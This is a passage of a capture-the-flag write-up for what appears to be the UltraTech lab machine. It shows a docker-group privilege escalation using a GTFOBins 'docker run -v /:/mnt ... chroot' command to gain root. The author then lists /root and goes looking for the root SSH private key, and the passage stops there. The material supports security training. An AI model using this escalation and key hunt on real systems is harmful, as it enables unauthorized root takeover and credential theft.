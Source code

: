 ```

1 package can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Dec 10 09:44:13 2023 from 10.17.48.138
r00t@ultratech-prod:~$
```
- Let's check what `sudo` commands the `r00t` user can run.
```
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```
- Looks like we will have to find another way.
- If we run `id`, we can see that we are part of the `docker` group. 
```
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ which docker
/usr/bin/docker
r00t@ultratech-prod:~$ ls -l /usr/bin/docker
-rwxr-xr-x 1 root root 68631952 Feb 13  2019 /usr/bin/docker
```
- Let's check the containers present.
```
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```
- We can see that there is a `bash` container.
- We can find an exploit for it on GTFOBins.
![[10 15.png]]
```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@78c7562da81f:/# 
```
- We are now the `root` user.
- Let's check the contents of the `root` directory.
```
root@78c7562da81f:/# ls -la /root
total 40
drwx------  6 root root 4096 Mar 22  2019 .
drwxr-xr-x 23 root root 4096 Mar 19  2019 ..
-rw-------  1 root root  844 Mar 22  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Mar 22  2019 .cache
drwx------  3 root root 4096 Mar 22  2019 .emacs.d
drwx------  3 root root 4096 Mar 22  2019 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Mar 22  2019 .python_history
drwx------  2 root root 4096 Mar 22  2019 .ssh
-rw-rw-rw-  1 root root  193 Mar 22  2019 private.txt
```
- The private key is has to be inside the `.ssh` directory.
- Let's verify the fact.
```
root@78c7562da81f:/# ls -la /root/.ssh        
```